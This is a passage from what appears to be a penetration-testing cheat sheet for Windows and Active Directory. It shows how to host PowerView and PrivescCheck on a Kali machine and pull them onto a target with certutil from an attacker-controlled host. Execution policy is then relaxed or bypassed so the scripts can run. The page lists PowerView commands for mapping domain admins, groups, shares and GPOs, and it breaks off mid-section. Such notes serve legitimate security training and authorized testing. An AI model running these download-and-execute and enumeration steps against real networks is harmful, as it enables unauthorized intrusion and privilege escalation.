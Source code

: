 Prepare Kali:

```sh
curl -sLo /var/www/html/PowerView.ps1 https://github.com/PowerShellMafia/PowerSploit/raw/master/Recon/PowerView.ps1
```

Import on target:

```sh
certutil.exe -urlcache -f -split http://$KALI/PowerView.ps1
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
Import-Module .\PowerView.ps1
Get-Module
```

Interesting commands:

```sh
Get-Domain
Get-DomainController
(Get-DomainPolicy).SystemAccess
Get-DomainUser | Where-Object {$_.memberof -like '*Domain Admins*'} | Format-Table -AutoSize samaccountname,memberof
Get-DomainGroupMember -Identity 'Domain Admins' -Recurse | Format-Table -AutoSize MemberName
Get-DomainGroup -MemberIdentity <username> | Format-Table -AutoSize samaccountname
Invoke-ShareFinder
Get-NetGPO | Format-Table -AutoSize displayname,whenchanged,whencreated
```

<details><summary><h3><a href="https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc">PowerUp</a></h3></summary></details>

### 8.2. [PrivescCheck](https://github.com/itm4n/PrivescCheck)

Prepare Kali:

```sh
curl -sLo /var/www/html/PrivescCheck.ps1 https://github.com/itm4n/PrivescCheck/raw/master/PrivescCheck.ps1
```

Import on target:

```cmd
certutil.exe -urlcache -f -split http://$KALI/PrivescCheck.ps1
Set-ExecutionPolicy Bypass -Scope CurrentUser
Import-Module .\PrivescCheck.ps1
Get-Module
```

Run check:

```cmd
Invoke-PrivescCheck
```

Or run it in a single line:
